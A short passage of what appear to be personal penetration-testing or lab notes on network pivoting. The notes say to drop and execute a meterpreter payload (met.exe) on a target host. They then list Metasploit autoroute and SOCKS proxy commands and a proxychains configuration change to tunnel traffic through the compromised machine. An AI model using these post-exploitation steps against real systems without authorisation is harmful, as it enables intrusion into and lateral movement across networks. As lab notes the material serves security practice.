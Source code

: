 
Drop met.exe on to .10 host and execute for meterpreter shell
meterpreter>
```
background
```

```
use post/multi/manage/autoroute
```

```
set session 1
```

```
exploit
```

```
use auxiliary/server/socks_proxy
```

```
set srvhost 127.0.0.1
```

```
exploit -j
```

```
sudo bash -c 'echo "socks5 127.0.0.1 1080" >> /etc/proxychains.conf'
```

My proxychains.conf file was empty, had to copy `proxychains4.conf` to `proxychains.conf`





